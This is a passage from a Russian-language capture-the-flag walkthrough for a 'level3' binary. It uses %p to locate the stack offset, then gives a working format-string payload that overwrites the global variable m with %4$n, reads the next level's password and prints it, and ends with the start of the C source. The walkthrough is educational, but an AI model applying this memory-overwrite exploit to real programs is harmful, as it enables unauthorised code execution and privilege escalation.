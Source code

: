 Здесь я быстро добралась до нужной памяти. Но иногда нужное значение может быть очень далеко. Тогда можно использовать команду:
```sh
echo -e $(python -c 'print "AAAA" + " %p" * 1000') | ./level3 | tr " " "\n" | grep -n 0x41414141
    5  0x41414141

# tr " " "\n"     разделит строку по пробелам и каждое следующее значение стека перенесет на новую строку
# grep -n 0x41414141 отфильтрует нужную строку с указанием ее номера

# Поскольку нумерация начинается с AAAA (это будет первая выведенная строка), а печать стека начинается со второй строки, 
# необходимо вычесть 1         (5-1= 4  0x41414141)
# наша глобальная переменная m под номером 4. Значит %4$n
```
Теперь с [помощью модификатора](https://www.opennet.ru/man.shtml?topic=printf&category=3&russian=0) `%n` перезаписываю значение `m`:
1. Адрес `m` занимает 4 байта
2. Заполню оставшиеся 64-4 = 60 байт любым символом `A`

```sh
#                           адрес m       заполнитель    позиция введенного
#                           4 байта         60 байт      адреса в стеке
(echo $(python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'); cat) | ./level3
# ||
# \/
# �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Wait what?!
cat /home/user/level4/.pass
# ||
# \/
# b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

#                         Можно так заполнить: вместо A
# (echo $(python -c 'print "\x8c\x98\x04\x08" + "%60d" + "%4$n"'); cat) | ./level3

```
Уровень пройден!
```sh
su level4
# Password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```


<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "stdio.h"
#include "string.h"

int m;
